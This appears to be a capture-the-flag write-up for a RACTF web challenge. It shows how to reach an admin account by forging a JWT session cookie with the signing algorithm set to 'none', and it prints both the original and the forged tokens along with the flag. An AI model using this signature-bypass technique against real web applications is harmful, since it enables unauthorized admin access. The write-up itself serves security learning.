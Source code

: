 # Getting admin

## 300 points - First solved by clubby789

Challenge instance ready at `88.198.219.20:30807`.

See if you can get an admin account.

## Steps
Since we are logged in from the previous challange lets look at our auth cookie since the login is preserved.

`auth:"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjogIkhhcnJ5IiwgInByaXZpbGVnZSI6IDF9.A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU"`

This is a `JWT` (*JSON Web Token*)
Lets look at it with [CyberChef](https://gchq.github.io/CyberChef/)

```
{
    "user": "Harry",
    "privilege": 1
}
```

Since we now get the structur of the token lets manipulate it and convert it to a `JWT`:
Remove the Key in *CC* and set the signing algorithm to `none`
Then generate the new `JWT` and add the last part from the first `JWT`

```
{"user": "admin", "privilege": 2}
```
**JWT**
```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4iLCJwcml2aWxlZ2UiOjIsImlhdCI6MTU5MTc3NjA4Nn0.A7OHDo-b3PB5XONTRuTYq6jm2Ab8iaT353oc-VPPNMU
```

Now lets change the `auth-cookie` to the new `JWT` and access the `/admin` section.

## Flag
ractf{j4va5cr1pt_w3b_t0ken}
